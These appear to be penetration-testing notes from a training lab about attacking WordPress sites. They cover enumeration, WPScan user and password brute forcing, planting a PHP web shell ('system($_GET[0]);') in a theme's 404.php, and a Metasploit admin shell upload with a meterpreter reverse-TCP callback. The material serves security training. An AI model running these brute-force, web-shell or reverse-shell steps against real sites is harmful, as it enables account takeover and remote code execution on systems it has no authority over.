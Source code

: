 # Discovery/Footprinting


A quick way to identify a WordPress site is by browsing to the /robots.txt file. A typical robots.txt on a WordPress installation may look like:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```


WordPress stores its plugins in the wp-content/plugins directory. This folder is helpful to enumerate vulnerable plugins. Themes are stored in the wp-content/themes directory. These files should be carefully enumerated as they may lead to RCE.

    
# Wordpress Default Users    
There are five types of users on a standard WordPress installation.

- Administrator: This user has access to administrative features within the website. This includes adding and deleting users and posts, as well as editing source code.
    
- Editor: An editor can publish and manage posts, including the posts of other users.
    
- Author: They can publish and manage their own posts.
    
- Contributor: These users can write and manage their own posts but cannot publish them.
    
- Subscriber: These are standard users who can browse posts and edit their profiles.



# Enumeration

```
$ curl -s http://blog.inlanefreight.local | grep WordPress

$ curl -s http://blog.inlanefreight.local/ | grep themes

$ curl -s http://blog.inlanefreight.local/ | grep plugins

```




# Enumerating Users




    

### WPScan

`$ sudo gem install wpscan`


We can obtain an API token from WPVulnDB, which is used by WPScan to scan for PoC and reports.


The --enumerate flag is used to enumerate various components of the WordPress application, such as plugins, themes, and users. By default, WPScan enumerates vulnerable plugins, themes, users, media, and backups. However, specific arguments can be supplied to restrict enumeration to specific components. For example, all plugins can be enumerated using the arguments --enumerate ap. Let’s invoke a normal enumeration scan against a WordPress website with the --enumerate flag and pass it an API token from WPVulnDB with the --api-token flag.

`$ sudo wpscan --url http://site.local --enumerate --api-token <SNIP>`

The default number of threads used is 5. However, this value can be changed using the -t flag.




### Login Bruteforce

    
    

WPScan can be used to brute force usernames and passwords. The scan report in the previous section returned two users registered on the website (admin and john). The tool uses two kinds of login brute force attacks:

- xmlrpc (WordPress API through /xmlrpc.php)
- wp-login (tandard WordPress login page)



`$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://site.local`


The --password-attack flag is used to supply the type of attack. The -U argument takes in a list of users or a file containing user names. This applies to the -P passwords option as well. The -t flag is the number of threads which we can adjust up or down depending. 



# Code Execution

        
With administrative access to WordPress, we can modify the PHP source code to execute system commands. Log in to WordPress  Click on Appearance on the side panel and select Theme Editor. This page will let us edit the PHP source code directly. An inactive theme can be selected to avoid corrupting the primary theme.

Click on Select after selecting the theme, and we can edit an uncommon page such as 404.php to add a web shell.

`system($_GET[0]);`


We know that WordPress themes are located at /wp-content/themes/<theme name>. 

`$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id`



### Metasploit use

The wp_admin_shell_upload module from Metasploit can be used to upload a shell and execute it automatically.

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local

```

